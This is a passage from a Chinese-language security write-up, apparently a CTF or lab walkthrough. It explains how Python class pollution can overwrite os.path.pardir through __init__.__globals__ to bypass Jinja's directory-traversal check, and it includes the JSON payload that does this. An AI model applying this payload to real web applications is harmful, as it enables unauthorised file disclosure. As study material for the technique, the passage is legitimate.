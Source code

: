然后我们找到 temlating.py 下面的报错信息，然后逐步跟一下找到了报 500 的代码块：

[![](assets/1700528987-2c1b8f6f842483ab55ef51881e390838.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119132324-c2c27d54-869b-1.png)

这个地方就是模板渲染的时候，防止目录穿梭进行的一个操作，而我们的 os.path.pardir 恰好是我们的..所以会进行报错，所以我们如果把这个地方进行修改为除..外的任意值，我们就可以进行目录穿梭了。

```bash
payload={
    "__init__":{
        "__globals__":{
            "os":{
                "path":{
                    "pardir":","
                }
            }
        }
    }
}
```

[![](assets/1700528987-e1b001a4cee59db494bb855148c3945a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119132330-c6cbf36c-869b-1.png)
